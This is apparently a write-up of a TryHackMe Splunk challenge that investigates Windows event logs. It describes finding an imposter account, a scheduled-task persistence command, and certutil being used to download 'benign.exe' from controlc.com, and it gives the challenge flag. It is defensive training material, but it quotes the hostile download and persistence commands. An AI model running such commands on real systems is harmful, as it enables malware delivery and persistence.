




# Benign

## Overview

Benign is a Splunk investigation challenge focused on analyzing Windows event logs and identifying suspicious activity.

During the investigation, I analyzed process creation events, user activity, scheduled tasks, and command-line execution. The investigation led to the discovery of an imposter account, suspicious scheduled task activity, and the use of a Windows LOLBin to download a payload from an external file-sharing service.

## Tools Used

- Splunk
- Windows Event Logs
- Browser

## Investigation

### Imposter Account

I started by looking at the usernames present in the Windows event logs.

```spl
index="win_eventlogs"
| stats count by UserName
```

This query showed all usernames and the number of events associated with each one.

While reviewing the results, I noticed a suspicious username:

```text
Amel1a
```

There was only one event associated with this account. The legitimate employee was named `Amelia`, while the suspicious account used the number `1` instead of the letter `i`.

This appeared to be an attempt to imitate the legitimate username.



### Scheduled Task Activity

Next, I investigated scheduled task activity. I searched Windows process creation events (Event ID 4688) for executions of `schtasks.exe`.

```spl
index="win_eventlogs" EventID=4688
| search ProcessName="*schtasks.exe" OR CommandLine="*schtasks*"
| table _time UserName ProcessName CommandLine
```

While reviewing the results, I found suspicious activity associated with the HR user `Chris.fort`.

The command line showed the creation of a scheduled task:

```text
/create /tn OfficUpdater /tr "C:\Users\Chris.fort\AppData\Local\Temp\update.exe" /sc onstart
```

The task named `OfficUpdater` was configured to execute `update.exe` at system startup.



### LOLBin Abuse and Payload Download

I then searched for HR users executing processes with HTTP or HTTPS URLs in their command lines.

```spl
index="win_eventlogs" EventID=4688
(UserName="Haroon" OR UserName="Chris" OR UserName="Diana")
(CommandLine="*http://*" OR CommandLine="*https://*")
| table _time UserName ProcessName CommandLine
```

The search returned one interesting event associated with the user `haroon`.

The process was:

```text
C:\Windows\System32\certutil.exe
```

The command line was:

```text
certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe
```

`certutil.exe` is a legitimate Windows binary, but in this case it was used as a LOLBin to download a file from the internet.

From this event, I identified several important artifacts:

- User: `haroon`
- LOLBin: `certutil.exe`
- Execution date: `2022-03-04`
- External host: `controlc.com`
- URL: `https://controlc.com/e4d11035`
- Downloaded file: `benign.exe`



### External Resource Investigation

After identifying the URL in the `certutil.exe` command, I opened the resource in the browser for further investigation.

The page contained a file named:

```text
flag.txt
```

Inside the file, I found the following value:

```text
THM{KJ&*H^B0}
```



## Indicators of Compromise

| Type | Value |
|---|---|
| Suspicious Account | `Amel1a` |
| User | `Chris.fort` |
| User | `haroon` |
| Scheduled Task | `OfficUpdater` |
| Executable | `update.exe` |
| LOLBin | `certutil.exe` |
| Downloaded File | `benign.exe` |
| External Host | `controlc.com` |
| URL | `https://controlc.com/e4d11035` |

## What I Learned

This challenge helped me practice investigating Windows event logs with Splunk and using process creation events to identify suspicious activity.

I also learned how command-line data can reveal important details about an attack. By analyzing `ProcessName` and `CommandLine`, I was able to identify scheduled task activity, LOLBin abuse, the downloaded payload, and the external host involved in the activity.

Another useful lesson was that the investigation does not always end inside the SIEM. After finding the suspicious URL in Splunk, I had to pivot to the external resource to continue the investigation.

## Conclusion

The investigation revealed multiple suspicious activities in the Windows event logs, including an imposter account, scheduled task creation, and the abuse of `certutil.exe` to download a payload.

By filtering process creation events and analyzing command-line activity, I was able to connect the suspicious user activity with the downloaded payload and external infrastructure.
